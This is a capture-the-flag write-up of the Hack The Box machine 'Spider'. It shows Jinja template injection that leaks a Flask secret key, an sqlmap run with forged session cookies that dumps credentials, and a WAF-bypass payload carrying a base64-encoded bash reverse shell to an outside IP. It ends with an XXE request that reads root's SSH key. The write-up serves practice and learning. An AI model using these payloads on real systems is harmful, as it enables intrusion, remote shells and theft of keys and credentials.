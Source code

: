 ```yaml
---
permalink: /spider
layout: post
author: InfoSecJack & chivato
title: Writeup
date: 2021-10-24
publish: True
description: "Spider is a hard difficulty Linux machine which focuses on web-based injection attacks. Server-Side Template Injection (SSTI) is first exploited to read the config object of a Flask application and obtain the SECRET_KEY string, which can be used to sign and verify session cookies. An SQL injection attack carried through forged cookies allows attackers to retrieve login data from the database and gain administrative access to the web application. A second SSTI vulnerability is found in a support ticket portal. Exploiting this vulnerability, which requires bypassing a Web Application Firewall, results in arbitrary code execution and ultimately in an interactive shell on the system. Privileges can then be escalated by exploiting an XML External Entity (XXE) injection vulnerability in a beta web application running locally
"
---
```


# Enumeration

Nmap

```bash
sudo nmap -sC -sV -oA nmap/spider 10.10.10.243

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
|_  256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.81 seconds

```

Add spider.htb to /etc/hosts file

![](/Writeups/Spider/Pasted image 20211023205658.png)

Registering new user

![](/Writeups/Spider/Pasted image 20211023210019.png)

![](/Writeups/Spider/Pasted image 20211023210948.png)

Created user as {{config}} for SSTI, because config exist for every server

![](/Writeups/Spider/Pasted image 20211023211119.png)

got details of the file config

![](/Writeups/Spider/Pasted image 20211023211149.png)

## config

```php

<Config {'ENV': 'production'
 'DEBUG': False
 'TESTING': False
 'PROPAGATE_EXCEPTIONS': None
 'PRESERVE_CONTEXT_ON_EXCEPTION': None
 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
 'USE_X_SENDFILE': False
 'SERVER_NAME': None
 'APPLICATION_ROOT': '/'
 'SESSION_COOKIE_NAME': 'session'
 'SESSION_COOKIE_DOMAIN': False
 'SESSION_COOKIE_PATH': None
 'SESSION_COOKIE_HTTPONLY': True
 'SESSION_COOKIE_SECURE': False
 'SESSION_COOKIE_SAMESITE': None
 'SESSION_REFRESH_EACH_REQUEST': True
 'MAX_CONTENT_LENGTH': None
 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0
 43200)
 'TRAP_BAD_REQUEST_ERRORS': None
 'TRAP_HTTP_EXCEPTIONS': False
 'EXPLAIN_TEMPLATE_LOADING': False
 'PREFERRED_URL_SCHEME': 'http'
 'JSON_AS_ASCII': True
 'JSON_SORT_KEYS': True
 'JSONIFY_PRETTYPRINT_REGULAR': False
 'JSONIFY_MIMETYPE': 'application/json'
 'TEMPLATES_AUTO_RELOAD': None
 'MAX_COOKIE_SIZE': 4093
 'RATELIMIT_ENABLED': True
 'RATELIMIT_DEFAULTS_PER_METHOD': False
 'RATELIMIT_SWALLOW_ERRORS': False
 'RATELIMIT_HEADERS_ENABLED': False
 'RATELIMIT_STORAGE_URL': 'memory://'
 'RATELIMIT_STRATEGY': 'fixed-window'
 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset'
 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining'
 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit'
 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After'
 'UPLOAD_FOLDER': 'static/uploads'}>
```

On googling parameters we can find something related to flask.

## Flask Unsigned cookie

Unsigning cookie using flask

https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign

Sql-inject with flask_unsign.

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval

```bash

sqlmap http://spider.htb --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump

```

```sql
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 05c31009-d105-41bd-bf71-d1bdacf5a2ee | aaa        | 12345           |
| 3  | 539619f4-cf01-451f-8b1e-f3c392cec0b6 | {{7*7}}    | 12345           |
| 4  | 05b87d4f-91cd-448a-8db3-15783f9526dc | {{config}} | 12345           |
| 5  | 6bee5cc6-928a-4371-8d9b-007c2b760243 | nullbyte   | Qwertyasd$      |
| 6  | d694bef9-793b-4cb2-95d8-9a449243cd1e | {{config}} | 123             |
| 7  | 85085523-c4c7-4a5d-887a-69f2216ec268 | {{config}} | fDtyA4W5q7T22c8 |
+----+--------------------------------------+------------+-----------------+


```

# Admin

Signing in as admin using chiv's uuid and password obtained from sqlmap.

![](/Writeups/Spider/Pasted image 20211023214517.png)

After loggin in we can find a unfinished support portal.

![](/Writeups/Spider/Pasted image 20211023214637.png)

![](/Writeups/Spider/Pasted image 20211023214926.png)

After a while trail and error found bad characters which are blocking by WAF. Executing [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass)after escaping bad character.

```python

\{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 2")|attr("read")() %}

```

![](/Writeups/Spider/Pasted image 20211023220907.png)

Got a reverse shell

```bash

{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo+YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEzOC85MDAxIDA%2bJjEK+|+base64+-d+|+bash")|attr("read")() %}
```

![](/Writeups/Spider/Pasted image 20211024081248.png)

tty shell

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo;fg
Enter Enter
export TERM=xterm


```

Copy id_rsa of chiv

![](/Writeups/Spider/Pasted image 20211024081815.png)

# User

![](/Writeups/Spider/Pasted image 20211024081935.png)

another server run in port 8080

![](/Writeups/Spider/Pasted image 20211024082027.png)

we can forward the port to our machine using following commands

```bash

shift +~+C
-L 8081:127.0.0.1:8080

```

![](/Writeups/Spider/Pasted image 20211024082358.png)

![](/Writeups/Spider/Pasted image 20211024082508.png)

Intersecpt the request in burpsuite and replace data in request with follow to get id_rsa

```xml

username=%26username%3b&version=1.0.0--><!DOCTYPE+foo+[<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--

```

# Root

![](/Writeups/Spider/Pasted image 20211024090436.png)

copy id_rsa and change permission

```bash

chmod 600 id_rsa

```

![](/Writeups/Spider/Pasted image 20211024093237.png)
